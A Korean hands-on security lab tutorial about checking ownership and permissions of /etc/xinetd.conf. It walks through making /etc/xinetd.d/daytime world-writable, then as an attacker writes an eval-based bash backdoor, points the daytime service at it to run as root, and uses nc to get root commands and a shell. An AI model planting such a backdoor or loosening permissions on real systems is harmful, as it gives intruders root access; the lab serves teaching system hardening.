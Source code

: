 ## /etc/(x)inetd.conf 파일 소유자 및 권한 설정

누구나 `xinetd` 설정 파일을 수정할 수 있으면 어떤 문제가 발생할 수 있는지 알아봅시다.

### 실습 1 : `xinetd` 설정 파일 수정을 통한 간단한 백도어 생성

**[취약한 리눅스 서버 관리자] 취약한 시스템을 만듭시다!**

1. 우선 슈퍼 데몬인 `xinetd`를 설치합니다.

```
cju@wooam:~$ sudo apt install xinetd
```

2. `xinetd.conf` 파일의 접근 권한을 살펴봅시다.

```
cju@wooam:~$ ls -l /etc/xinet.conf
```

3. `xinetd.conf` 파일의 내용도 살펴봅시다. `/etc/xinetd.d` 디렉터리를 포함(`includedir`)하는 것을 확인할 수 있습니다.

```
cju@wooam:~$ cat /etc/xinetd.conf
# Simple configuration file for xinetd
#
# Some defaults, and include /etc/xinetd.d/

defaults
{

# Please note that you need a log_type line to be able to use log_on_success
# and log_on_failure. The default is the following :
# log_type = SYSLOG daemon info

}

includedir /etc/xinetd.d
```

4. `/etc/xinetd.d` 디렉토리를 살펴봅시다.

```
cju@wooam:~$ ls /etc/xinetd.d/
chargen  chargen-udp  daytime  daytime-udp  discard  discard-udp  echo  echo-udp  servers  services  time  time-udp
```

5. `/etc/xinetd.d` 디렉터리 파일 중 하나의 접근 권한을 `-rw-rw-rw-`로 변경합니다. 여기서는 `daytime`의 접근 권한을 변경합니다.

```
cju@wooam:~$ sudo chmod 666 /etc/xinetd.d/daytime
```

**[공격자] `daytime` 서비스 대신 백도어를 올립니다!**

> 공격자가 취약한 리눅스 서버에 일반 사용자 계정으로 접속했다고 가정합니다.

6. `xinetd` 관련 파일의 접근 권한을 살펴봅시다. `/etc/xinetd.d/daytime` 파일을 아무나 수정할 수 있음을 발견합니다.

```
aaa@wooam:~$ ls -l /etc/xinetd.conf /etc/xinetd.d
```

7. 아래와 같이 간단한 백도어를 만듭니다.

```
aaa@wooam:~$ cat hola
#!/bin/bash
read yourcommand
eval $yourcommand
echo "Thanks you for using this backdoor!"
```

8. 만든 백도어 파일에 실행 권한을 부여합니다.

```
aaa@wooam:~$ chmod 755 hola
```

9. `/etc/xinetd.d/daytime` 파일을 아래와 같이 수정합니다. `disable = no`로 수정하고 `type = INTERNAL` 라인은 삭제합니다. 그리고 `server = /home/aaa/hola`를 추가합니다.

```
aaa@wooam:~$ cat /etc/xinetd.d/daytime
# default: off
# description: An internal xinetd service which gets the current system time
# then prints it out in a format like this: "Wed Nov 13 22:30:27 EST 2002".
# This is the tcp version.
service daytime
{
	disable		= no
	id		= daytime-stream
	socket_type	= stream
	protocol	= tcp
	user		= root
	wait		= no
	server		= /home/aaa/hola
}

# This is the udp version.
service daytime
{
	disable		= yes
	type		= INTERNAL
	id		= daytime-dgram
	socket_type	= dgram
	protocol	= udp
	user		= root
	wait		= yes
}

```

10. `xinetd` 서비스가 재시작되었다고 가정합니다.

```
cju@wooam:~$ sudo systemctl restart xinetd
```

**[공격자] `daytime` 백도어를 통해 자유롭게 시스템을 사용합니다!!!**

11. `nc` 명령어를 이용하여 백도어에 접근합니다.

```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
whoami
root
```

12. 셸도 실행 가능합니다!

```
┌──(kali㉿kali)-[~]
└─$ nc -v 192.168.xxx.xxx 13
192.168.102.128: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.xxx.xxx] 13 (daytime) open
sh
pwd
/
exit
```